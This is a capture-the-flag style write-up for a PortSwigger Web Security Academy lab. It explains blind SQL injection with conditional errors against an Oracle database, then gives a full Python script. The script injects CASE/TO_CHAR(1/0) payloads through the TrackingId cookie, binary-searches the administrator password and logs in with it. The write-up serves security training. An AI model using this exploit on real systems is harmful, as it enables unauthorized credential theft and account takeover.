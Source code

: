 ```yaml
---
title: Blind SQL injection with conditional errors
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors/">
10. Blind SQL injection with conditional errors</a>

The target contains a SQL injection vulnerability in its cookies. It provides a
TrackingId cookie to keep track of visitors for analytics purposes. This
TrackingId cookie is injectable. Unfortunately, this target doesn't give us any
indication of whether the SQL query was executed successfully or not. To remedy
this, we intentionally trigger an error in the SQL query, which causes the
application to return a 500 error.

This target uses Oracle as its database management system. We make some minor
changes to our SQL query and use an if / else statement to trigger an error if
we've correctly guessed a character of the password. We use binary search to
find each character of the administrator password. This lab only uses lowercase
letters and numbers in the password, so our range of characters to search
through is:

0123456789abcdefghijklmnopqrstuvwxyz

We binary search each character of the password, one by one, until we have the
full password. Then we login as the administrator.

Solution:

```python
# usage:
# python3 10.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import re
import string
from argparse import ArgumentParser
from typing import Optional

import requests

ALPHANUM = list(string.digits + string.ascii_lowercase)
http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def search(self, i: int) -> Optional[str]:
        s = requests.Session()
        req = s.get(f"{self.url}/")
        cookies = s.cookies.get_dict()
        tracking_id = cookies["TrackingId"]

        l, r = 0, len(ALPHANUM) - 1
        while l <= r:
            m = (l + r) // 2

            cookies["TrackingId"] = (
                f"{tracking_id}'||(SELECT CASE WHEN SUBSTR(password,{i},1)='{ALPHANUM[m]}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            )
            s = requests.Session()
            req = s.get(f"{self.url}/", cookies=cookies)
            if req.status_code == 500:
                return ALPHANUM[m]

            cookies["TrackingId"] = (
                f"{tracking_id}'||(SELECT CASE WHEN SUBSTR(password,{i},1)<'{ALPHANUM[m]}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            )
            s = requests.Session()
            req = s.get(f"{self.url}/", cookies=cookies)
            if req.status_code == 500:
                r = m - 1
            else:
                l = m + 1

        return

    def solve(self) -> None:
        password = []
        i = 1
        while True:
            ch = self.search(i)
            if not ch:
                break
            else:
                password.append(ch)
            i += 1

        password = "".join(password)
        print(f"Password found! -- {password}")
        self.login("administrator", password)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```

